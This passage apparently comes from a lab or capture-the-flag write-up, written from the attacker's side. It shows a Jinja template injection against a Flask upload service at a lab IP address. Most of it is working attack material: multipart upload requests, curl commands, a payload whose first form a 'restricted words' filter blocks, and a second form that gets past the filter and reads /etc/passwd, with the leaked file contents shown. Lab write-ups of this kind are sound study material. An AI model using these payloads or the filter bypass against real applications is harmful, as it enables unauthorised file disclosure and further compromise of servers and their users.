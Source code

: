 ![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`vim ./html_python_request.txt`:
```http
-----------------------------156927482725802177751080524724
Content-Disposition: form-data; name="file"; filename="python_test.html"
Content-Type: text/html

<html>
	<body>
		{{ self.__init__.__globals__.__builtins__ }}
	</body>
</html>

-----------------------------156927482725802177751080524724--
```

`curl -X POST http://192.168.56.147:5000/ --data-binary @html_python_request.txt --header "Content-Type: multipart/form-data; boundary=---------------------------156927482725802177751080524724"`:
```html
[...]

    <h3>Error: File: /home/cosette/zeug/venv/lib/python3.11/site-packages/flask/app.py - Template contains restricted words: init</h3> ←

[...]
```

`vim ./html_python_request.txt`:
```http
-----------------------------156927482725802177751080524724
Content-Disposition: form-data; name="file"; filename="python_test.html"
Content-Type: text/html

<html>
	<body>
		{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
	</body>
</html>

-----------------------------156927482725802177751080524724--
```

`curl -X POST http://192.168.56.147:5000/ --data-binary @html_python_request.txt --header "Content-Type: multipart/form-data; boundary=---------------------------156927482725802177751080524724"`:
```html
[...]

            <h2>Result:</h2>
        <div>&lt;html&gt;
        &lt;body&gt;
        
        root:x:0:0:root:/root:/bin/bash
		daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
		bin:x:2:2:bin:/bin:/usr/sbin/nologin
		sys:x:3:3:sys:/dev:/usr/sbin/nologin
		sync:x:4:65534:sync:/bin:/bin/sync
		games:x:5:60:games:/usr/games:/usr/sbin/nologin
		man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
		lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
		mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
		news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
		uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
		proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
		www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
		backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
```
